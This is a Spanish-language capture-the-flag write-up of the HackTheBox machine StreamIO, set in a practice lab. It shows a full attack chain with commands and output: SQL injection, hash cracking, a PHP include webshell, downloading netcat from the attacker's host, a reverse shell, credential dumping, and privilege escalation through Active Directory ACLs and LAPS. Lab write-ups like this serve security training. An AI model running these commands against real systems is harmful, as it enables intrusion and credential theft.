



Resolución de la máquina StreamIO de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap y podemos ver dos dominios
❯ nmap -sC 10.10.11.158
Nmap scan report for 10.10.11.158
PORT STATE SERVICE
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
443/tcp open https
| Subject Alternative Name: DNS:streamio.htb, DNS:watch.streamio.htb
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5985/tcp open wsman
El puerto 443 esta abierto por lo que es servicio https, al dar un vistazo podemos ver un login

Después de pasar la captura de la petición por sqlmap podemos ver algunas bases de datos
❯ sqlmap -r login --batch -dbs
<......................>
available databases [5]:
[*] model
[*] msdb
[*] STREAMIO
[*] streamio_backup
[*] tempdb
Dumpeando la base de datos STREAMIO, después de un rato nos arroja usuarios y hashes
❯ sqlmap -r login --batch -D STREAMIO --dump
<........................................................................>
+----+----------+----------------+---------------------------------------+
| id | is_staff | username | password |
+----+----------+----------------+---------------------------------------+
| 3 | 1 | James | c660060492d9edcaa8332d89c99c9239 |
| 4 | 1 | Theodore | 925e5408ecb67aea449373d668b7359e |
| 5 | 1 | Samantha | 083ffae904143c4796e464dac33c1f7d |
| 6 | 1 | Lauren | 08344b85b329d7efd611b7a7743e8a09 |
| 7 | 1 | William | d62be0dc82071bccc1322d64ec5b6c51 |
| 8 | 1 | Sabrina | f87d3c0d6c8fd686aacc6627f1f493a5 |
| 9 | 1 | Robert | f03b910e2bd0313a23fdd7575f34a694 |
| 10 | 1 | Thane | 3577c47eb1e12c8ba021611e1280753c |
| 11 | 1 | Carmon | 35394484d89fcfdb3c5e447fe749d213 |
| 12 | 1 | Barry | 54c88b2dbd7b1a84012fabc1a4c73415 |
| 13 | 1 | Oliver | fd78db29173a5cf701bd69027cb9bf6b |
| 14 | 1 | Michelle | b83439b16f844bd6ffe35c02fe21b3c0 |
| 15 | 1 | Gloria | 0cfaaaafb559f081df2befbe66686de0 |
| 16 | 1 | Victoria | b22abb47a02b52d5dfa27fb0b534f693 |
| 17 | 1 | Alexendra | 1c2b3d8270321140e5153f6637d3ee53 |
| 18 | 1 | Baxter | 22ee218331afd081b0dcd8115284bae3 |
| 19 | 1 | Clara | ef8f3d30a856cf166fb8215aca93e9ff |
| 20 | 1 | Barbra | 3961548825e3e21df5646cafe11c6c76 |
| 21 | 1 | Lenord | ee0b8a0937abd60c2882eacb2f8dc49f |
| 22 | 1 | Austin | 0049ac57646627b8d7aeaccf8b6a936f |
| 23 | 1 | Garfield | 8097cedd612cc37c29db152b6e9edbd3 |
| 24 | 1 | Juliette | 6dcd87740abb64edfa36d170f0d5450d |
| 25 | 1 | Victor | bf55e15b119860a6e6b5a164377da719 |
| 26 | 1 | Lucifer | 7df45a9e3de3863807c026ba48e55fb3 |
| 27 | 1 | Bruno | 2a4e2cf22dd8fcb45adcb91be1e22ae8 |
| 28 | 1 | Diablo | ec33265e5fc8c2f1b0c137bb7b3632b5 |
| 29 | 1 | Robin | dc332fb5576e9631c9dae83f194f8e70 |
| 30 | 1 | Stan | 384463526d288edcc95fc3701e523bc7 |
| 31 | 1 | yoshihide | b779ba15cedfd22a023c4d8bcf5f2332 |
| 33 | 0 | admin | 665a50ac9eaa781e4f7f04199db97a11 |
+----+----------+----------------+---------------------------------------+
Si los pasamos con john podemos romper varios hashes, ahora tenemos varias credenciales
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hashes --format=Raw-MD5
Loaded 30 password hashes with no different salts (Raw-MD5 [MD5 128/128 XOP 4x2])
##123a8j8w5123## (Lauren)
!!sabrina$ (Sabrina)
highschoolmusical (Thane)
$hadoW (Barry)
!?Love?!123 (Michelle)
!5psycho8! (Victoria)
%$clara (Clara)
physics69i (Lenord)
$3xybitch (Juliette)
$monique$1991$ (Bruno)
66boysandgirls.. (yoshihide)
paddpadd (admin)
Session completed
Al probar las credenciales en el login encontramos que las de yoshihide son válidas

Fuzzeando un poco podemos encontrar /admin entre otras cosas
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://streamio.htb/FUZZ --hc 404 -t 100
Target: https://streamio.htb/FUZZ
Total requests: 4711
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000519: 301 1 L 10 W 150 Ch "admin"
000001325: 301 1 L 10 W 148 Ch "css"
000001829: 301 1 L 10 W 150 Ch "fonts"
000002163: 301 1 L 10 W 151 Ch "images"
000002347: 301 1 L 10 W 147 Ch "js"
Al estar logueados con las credenciales de yoshihide podemos acceder al paned en /admin
Al clic en alguna de las cosas que nos da interesantemente vemos un parametro user

Podemos fuzzear parametros arrastrando la cookie, encontramos el parametro debug
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "https://streamio.htb/admin/?FUZZ=" -H "Cookie: PHPSESSID=h7kjjq07md3b2mh9s3m6f2gmm7" --hh 1678 -t 100
Target: https://streamio.htb/admin/?FUZZ=
Total requests: 2588
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000015: 200 62 L 160 W 2073 Ch "user"
000000040: 200 49 L 137 W 1712 Ch "debug"
Fuzzeando un poco por argumentos del parámetro podemos ver index y master, suena a lfi
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/php.txt -u "https://streamio.htb/admin/?debug=FUZZ" -H "Cookie: PHPSESSID=h7kjjq07md3b2mh9s3m6f2gmm7" --hh 1712
Target: https://streamio.htb/admin/?debug=FUZZ
Total requests: 20721
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000186: 200 46 L 136 W 1693 Ch "index.php"
000005319: 200 11158 L 26706 W 342677 Ch "master.php"
Si cargamos una parte del index.php con un wrapper podemos ver credenciales
❯ curl -s -k "https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php" -H "Cookie: PHPSESSID=h7kjjq07md3b2mh9s3m6f2gmm7" | grep developers | awk '{print $6}' | base64 -d | head -n12
<?php
define('included',true);
session_start();
if(!isset($_SESSION['admin']))
{
header('HTTP/1.1 403 Forbidden');
die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);
?>
Revisando master vemos que podemos incluir archivos y que se interpreten
❯ curl -s -k "https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php" -H "Cookie: PHPSESSID=h7kjjq07md3b2mh9s3m6f2gmm7" | grep developers | awk '{print $6}' | base64 -d | tail -n9
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" )
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>
Sabiendo esto usaremos una "webshell" incluyendo la siguiente cadena en base64
❯ echo c3lzdGVtKCRfR0VUWydjbWQnXSk7 | base64 -d
system($_GET['cmd']);
De esta manera podemos intentar ejecutando whoami y vemos que se interpreta
❯ curl -s -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H "Cookie: PHPSESSID=h7kjjq07md3b2mh9s3m6f2gmm7" "https://streamio.htb/admin/?debug=master.php&cmd=whoami" | grep streamio
streamio\yoshihide
Ahora que tenemos RCE podemos cambiar el comando y subir el netcat
❯ curl -s -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H "Cookie: PHPSESSID=h7kjjq07md3b2mh9s3m6f2gmm7" "https://streamio.htb/admin/?debug=master.php&cmd=curl+10.10.14.10/netcat.exe+-o+C:\\ProgramData\\netcat.exe" &>/dev/null
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.158 - - "GET /netcat.exe HTTP/1.1" 200 -
Invocamos en netcat y podemos hacernos una reverse shell a nuestra máquina
❯ curl -s -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H "Cookie: PHPSESSID=h7kjjq07md3b2mh9s3m6f2gmm7" "https://streamio.htb/admin/?debug=master.php&cmd=cmd+/c+C:\\ProgramData\\netcat.exe+-e+powershell+10.10.14.10+443" &>/dev/null
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.158
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\inetpub\streamio.htb\admin> whoami
streamio\yoshihide
PS C:\inetpub\streamio.htb\admin>
El archivo index.php como habiamos visto antes contiene credenciales para mssql
PS C:\inetpub\streamio.htb\admin> type index.php | Select-String STREAMIO
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
PS C:\inetpub\streamio.htb\admin>
Podemos jugar con chisel para enviarnos el puerto 1433 y poder conectarnos a mssql
❯ chisel server --reverse --port 8000
server: Reverse tunnelling enabled
server: Listening on http://0.0.0.0:8000
PS C:\ProgramData> .\chisel.exe client 10.10.14.10:8000 R:1433:127.0.0.1:1433
client: Connecting to ws://10.10.14.10:8000
client: Connected (Latency 11.0997ms)
Con el puerto en local podemos conectarnos con sqsh a la base de datos streamio_backup
❯ sqsh -S 127.0.0.1:1433 -U db_admin -P B1@hx31234567890 -D streamio_backup
Copyright (C) 1995-2001 Scott C. Gray
1>
Enumerando las tablas podemos ver movies y users que pinta mas interesante
1> select table_name from streamio_backup.information_schema.tables;
2> go
table_name
---------------
movies
users
1>
Dumpeando la tabla users podemos ver un par de usuarios y su respectivo hash
1> select username,password from users;
2> go
username password
--------------- ----------------------------------
nikk37 389d14cb8e4e9b94b137deb1caf0612a
yoshihide b779ba15cedfd22a023c4d8bcf5f2332
James c660060492d9edcaa8332d89c99c9239
Theodore 925e5408ecb67aea449373d668b7359e
Samantha 083ffae904143c4796e464dac33c1f7d
Lauren 08344b85b329d7efd611b7a7743e8a09
William d62be0dc82071bccc1322d64ec5b6c51
Sabrina f87d3c0d6c8fd686aacc6627f1f493a5
1>
Si pasamos los hashes por john podemos romper varios, tenemos mas credenciales
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hashes --format=Raw-MD5
Loaded 8 password hashes with no different salts (Raw-MD5 [MD5 128/128 XOP 4x2])
get_dem_girls2@yahoo.com (nikk37)
66boysandgirls.. (yoshihide)
##123a8j8w5123## (Lauren)
!!sabrina$ (Sabrina)
Session completed
Si probamos las credenciales con crackmapexec encontramos uas validas para winrm
❯ crackmapexec winrm 10.10.11.158 -u users -p passwords --no-bruteforce
WINRM 10.10.11.158 5985 NONE [*] None (name:10.10.11.158) (domain:None)
WINRM 10.10.11.158 5985 NONE [*] http://10.10.11.158:5985/wsman
WINRM 10.10.11.158 5985 NONE [+] None\nikk37:get_dem_girls2@yahoo.com (Pwn3d!)
Nos conectamos con ayuda de evil-winrm y finalmente conseguimos el user.txt
❯ evil-winrm -i 10.10.11.158 -u nikk37 -p get_dem_girls2@yahoo.com
PS C:\Users\nikk37\Documents> whoami
streamio\nikk37
PS C:\Users\nikk37\Documents> type ..\Desktop\user.txt
c3e*************************36e
PS C:\Users\nikk37\Documents>
Al ejecutar winpeas nos detecta credenciales en un archivo de Firefox
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for Firefox DBs
Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
Con ayuda de firepwd podemos conseguir las credenciales que tenga en texto claro
Para esto solo necesitamos el key4.db y logins.json que está en el mismo directorio
❯ ls
firepwd.py key4.db logins.json
Aplicando una pequeña expresión regular nos quedamos solo con user:password
❯ python3 firepwd.py | grep ht | awk '{print $3}' FS=':' | tr -d "b'" | tr ',' ':'
admin:JDg0dd1s@d0p3cr3@t0r
nikk37:n1kk1sd0p3t00
yoshihide:paddpadd@12
JDgodd:password@12
Después de jugar con bloodhound podemos encontrar una ruta para escalar privilegios
Iniciamos por descargar, subir e importar el módulo PowerView.ps1
❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 &>/dev/null
❯ evil-winrm -i 10.10.11.158 -u nikk37 -p get_dem_girls2@yahoo.com
PS C:\Users\nikk37\Documents> upload PowerView.ps1
Datos: 1027036 bytes de 1027036 bytes copiados
Estado: ¡Subida de archivo exitosa!
PS C:\Users\nikk37\Documents> Import-Module .\PowerView.ps1
PS C:\Users\nikk37\Documents>
Ahora definimos las credenciales que encontramos y agregamos a JDGood al grupo CoreStaff
PS C:\Users\nikk37\Documents> $Password = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
PS C:\Users\nikk37\Documents> $Cred = New-Object System.Management.Automation.PSCredential('StreamIO\JDGodd', $Password)
PS C:\Users\nikk37\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity "StreamIO\JDGodd"
PS C:\Users\nikk37\Documents> Add-DomainGroupMember -Identity "Core Staff" -Members "StreamIO\JDGodd" -Credential $Cred
PS C:\Users\nikk37\Documents>
Con ayuda de lapsdumper solicitaremos una contraseña "temporal" para Administrator
❯ python3 laps.py -u JDGodd -p JDg0dd1s@d0p3cr3@t0r -d streamio.htb
LAPS Dumper - Running
DC oV@wo9n8r9hITP
Finalmente con la contraseña temporal nos conectamos como Administrator y vemos la flag
❯ evil-winrm -i 10.10.11.158 -u Administrator -p oV@wo9n8r9hITP
PS C:\Users\Administrator\Documents> whoami
streamio\administrator
PS C:\Users\Administrator\Documents> type ..\..\Martin\Desktop\root.txt
cdc**************************f7a
PS C:\Users\Administrator\Documents>